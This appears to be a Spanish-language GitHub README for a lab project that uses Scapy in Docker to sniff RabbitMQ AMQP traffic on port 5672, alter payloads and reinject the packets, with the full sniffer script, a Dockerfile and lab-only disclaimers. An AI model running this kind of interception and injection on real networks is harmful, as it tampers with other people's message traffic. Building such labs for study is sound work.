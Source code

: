 
# 🧃🐇 AMQP Packet Chaos con Scapy (SOLO FINES EDUCATIVOS)

🚨 **Disclaimer:**  
Este proyecto es SOLO con fines educativos, para entender cómo interceptar/modificar/inyectar tráfico AMQP usando Scapy. NO lo uses en redes ajenas. No seas bobo: usa entornos de laboratorio.

## 📂 Estructura
```
.
├── docker-compose.yml
├── el_enviador/
│   ├── Dockerfile
│   ├── Insaneador.py
├── el_espameado/
│   ├── Dockerfile
│   ├── Insaneado.py
├── Scapy_scripts/
│   ├── Dockerfile
│   ├── sniffer.py
```
## 🚀 Qué hace
- Levanta RabbitMQ
- Envía/recibe mensajes
- `Scapy_scripts` intercepta paquetes AMQP (5672)
- Modifica payload
- Reinyecta paquetes modificados

## 🧃 sniffer.py
```python
from scapy.all import *
import time

print("🧃 Scapy interceptor ready...")

def packet_callback(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 5672:
        print(f"📦 Original packet: {packet.summary()}")
        if Raw in packet:
            original = packet[Raw].load
            modified = b"HACKED_" + original
            packet[Raw].load = modified
            del packet[IP].chksum
            del packet[TCP].chksum
            send(packet)
            print(f"🚨 Packet modificado e inyectado: {packet.summary()}")

sniff(filter="tcp port 5672", prn=packet_callback, store=0)
```

## 🧃 Dockerfile Scapy_scripts
```dockerfile
FROM python:3.11-slim

RUN apt-get update && apt-get install -y tcpdump iproute2 iputils-ping && pip install scapy

WORKDIR /app
COPY sniffer.py .
CMD ["python", "sniffer.py"]
```

## 🧃 Disclaimer
**SOLO LABORATORIO. SOLO PRUEBAS. NO A LAS ILEGALIDADES EXPLOSIVAS.**
